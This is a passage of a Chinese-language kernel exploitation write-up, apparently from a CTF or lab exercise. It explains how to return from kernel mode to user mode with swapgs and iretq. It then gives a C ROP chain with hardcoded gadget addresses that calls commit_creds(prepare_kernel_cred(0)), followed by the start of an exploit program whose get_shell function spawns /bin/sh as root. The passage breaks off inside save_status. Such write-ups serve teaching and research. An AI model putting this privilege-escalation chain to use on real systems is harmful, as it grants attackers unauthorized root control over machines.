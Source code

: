     2. 内核切换到用户态 

    + 执行swapg 恢复GS值(GS通过宏实现, 并不保存在gs寄存器)
    + 执行iretq 恢复用户态数据(或者执行sysretq 只需提供rip)
        - 需要提前在栈上填充用户态数据(rip,cs,rflags,sp,ss)
        - 填充的用户态数据应在用户态切换到内核态前保存(内联汇编)

    

+ ROP 链构造  
    1. commit_creds() 接收 prepare_kernel_cred(0)的返回值作为参数，即rdi <- rax 时需要灵活变通(手动搜索rop_gadget文件)
    
    2. 
    ``` c  
    ROP[i++] = 0xffffffff8106b910 + offset; // pop rdi, ret
    ROP[i++] = 0x0;
    ROP[i++] = prepare_kernel_cred;

    ROP[i++] = 0xffffffff8105bd21 + offset; // test rcx,rcx ; jne 0xffffffff8105bcc6 ; pop rbp ; ret
    ROP[i++] = 0x0;
    ROP[i++] = 0xffffffff8110c68a + offset; // mov rdi, rax ; jne 0xffffffff8110c672 ; pop rbp ; ret
    ROP[i++] = 0x0;
    ROP[i++] = commit_creds;
    
    ROP[i++] = 0xffffffff81a00d5e + offset; // swapgs ; popfq ; pop rbp ; ret
    ROP[i++] = 0x0;
    ROP[i++] = 0x0;
    ROP[i++] = 0xffffffff81024b3b + offset; // iretq

    ROP[i++] = (size_t)get_shell;          // rip
    ROP[i++] = user_cs;
    ROP[i++] = user_rflags;
    ROP[i++] = user_sp;
    ROP[i++] = user_ss;
    ```

### 三. 结果展示

![rop](../../kernel_rop1/rop.png)

### 四. exp
``` c
// gcc rop.c -masm=intel -static -o rop

#include <fcntl.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void get_shell()
{
    if (!getuid())
    {
        puts("=.=");
        system("/bin/sh");
    }
    else
    {
        puts("failed");
    }
    exit(0);
}

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
```
